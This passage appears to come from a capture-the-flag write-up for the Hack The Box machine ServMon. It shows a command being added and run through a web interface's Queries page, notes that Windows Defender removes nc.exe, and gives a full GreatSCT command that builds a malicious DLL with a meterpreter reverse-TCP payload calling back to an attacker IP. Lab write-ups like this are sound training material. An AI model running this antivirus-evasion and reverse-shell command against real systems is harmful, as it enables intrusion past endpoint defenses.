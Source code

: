Wait a little bit, log in again and go to `Queries`, your new command has been added:

![](/assets/img/htb/machines/windows/easy/servmon/queries.png)

Click on it and `Run`

![](/assets/img/htb/machines/windows/easy/servmon/run.png)

... And we were stopped by **Windows Defender Antivirus** which keeps removing `nc.exe` !

### Bypassing Defender with `GreatSCT.py`

A solution to ocvercome this issue is to use [GreatSCT](https://github.com/GreatSCT/GreatSCT) to generate a malicious DLL:

```bash
$ ./GreatSCT.py --ip 10.10.14.12 --port 443 -t bypass -p regsvcs/meterpreter/rev_tcp.py -o serv
```

![](/assets/img/htb/machines/windows/easy/servmon/great_scott.png)
